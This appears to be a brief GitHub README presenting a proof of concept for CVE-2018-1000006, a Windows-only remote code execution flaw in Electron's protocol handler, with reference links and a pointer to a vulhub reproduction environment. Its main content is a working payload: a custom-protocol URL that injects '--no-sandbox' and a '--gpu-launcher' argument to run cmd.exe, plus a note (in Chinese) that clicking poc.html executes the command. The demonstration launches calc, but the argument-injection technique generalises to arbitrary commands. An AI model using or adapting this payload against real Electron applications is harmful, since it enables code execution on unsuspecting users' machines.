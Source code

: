 # Electron<v.1.8.2-beta.4 RCE - CVE-2018-1000006 only for windows

## Reference
* [https://xianzhi.aliyun.com/forum/topic/1990](https://xianzhi.aliyun.com/forum/topic/1990)
* [https://electronjs.org/blog/protocol-handler-fix](https://electronjs.org/blog/protocol-handler-fix)

## Payload
```
chybeta://?" "--no-sandbox" "--gpu-launcher=cmd.exe /c start calc
当用户点击poc.html会执行命令
```
## 复现

* p师傅的项目里面有复现环境，git地址[https://github.com/vulhub/vulhub.git][https://github.com/vulhub/vulhub.git]


